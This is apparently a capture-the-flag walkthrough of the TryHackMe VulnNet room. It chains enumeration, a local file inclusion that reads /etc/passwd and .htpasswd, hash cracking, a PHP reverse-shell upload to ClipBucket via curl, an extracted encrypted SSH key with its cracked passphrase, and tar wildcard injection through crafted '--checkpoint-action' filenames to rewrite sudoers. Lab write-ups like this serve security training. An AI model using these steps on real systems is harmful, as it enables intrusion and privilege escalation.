 # 71 - VulnNet (LFI, JS code review, tar \*)

Room Link --> [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)

You will have to add a machine IP with domain: `vulnnet.thm` to your /etc/hosts

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.33.25 -p- -sV -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

Navigating to the webpage `http://vulnnet.thm` .

<figure><img src=".gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

#### Gobuster Enumeration

{% code overflow="wrap" %}
```bash
gobuster dir -u http://vulnnet.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403 -b 404

/css
/js
/img
/fonts
```
{% endcode %}

#### Subdomain Bruteforce / Discovery

{% code overflow="wrap" %}
```bash
ffuf -u http://vulnnet.thm -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.vulnnet.thm' -fs 5829

broadcast
```
{% endcode %}

This leads to an authentication page.

[http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

<figure><img src=".gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

But we don't have any credentials.&#x20;

I enumerated the JavaScript files in the JS dir, and found a parameter in the `index__d8338055.js` file:  --> \`[http://vulnnet.thm/index.php?referer=](http://vulnnet.thm/index.php?referer=)\`

<figure><img src=".gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So i check for LFI and it worked:

[http://vulnnet.thm/index.php?referer=/etc/passwd](http://vulnnet.thm/index.php?referer=/etc/passwd)

<figure><img src=".gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

Back to the [http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

The page is using a Basic authentication

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try to view the file that stores credentials for Basic Authentication on Ubuntu Apache, ie the `htpasswd` file. Located at `/etc/apache2/.htpasswd`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reading the file and we see a credential:

`developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0` .

Cracking with John.

Cracked --> `developers :  9972761drmfsls` .

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Poceed to login to the page. And got a `Clipbucket CMS` .

So Google Exploit for ClipBucket v4.0 exploits, and saw a [FIle Upload Exploit](https://www.exploit-db.com/exploits/44250).

### Initial Access

#### Uploading malicious php file.

Using Curl

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls
creating file{"success":"yes","file_name":"169989120868ca6d","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We naviigate to [http://broadcast.vulnnet.thm/actions/](http://broadcast.vulnnet.thm/actions/) There is a `CB_BEATS_UPLOAD_DIR`

We execute it and get shell.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Server-management user

There is a backup folder in the /var dir with some .gz files with Read privs on the, so we can download to kali and untar them.

{% code overflow="wrap" lineNumbers="true" %}
```bash
-rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
```
{% endcode %}

After untaring the file there is a `id_rsa` file.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We use `ssh2john` to crack the key password.

`oneTWO3gOyac`

```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh server-management@broadcast.vulnnet.thm -i id_rsa
```

Adnd am logged in.

### Priv Esc to Root

There is a cronjob running as root every 2 minutes.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
server-management@vulnnet:/var/opt$ cat backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

Its backingup everything in the Documents dir and saving to /var/backups dir every 2 minutes.

We can exploit the `*` (wildcard) there.

However, to exploit the vulnerability, execute below commands in the **/home/server-management/Documents/**.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we just add ourself to the /etc/sudoers file.
</strong><strong>echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
</strong>echo "" > "--checkpoint-action=exec=sh exploit.sh"
echo "" > --checkpoint=1
</code></pre>

Now, wait 2 minutes, and execute `sudo /bin/bash` and your are **ROOT!**.

Done!


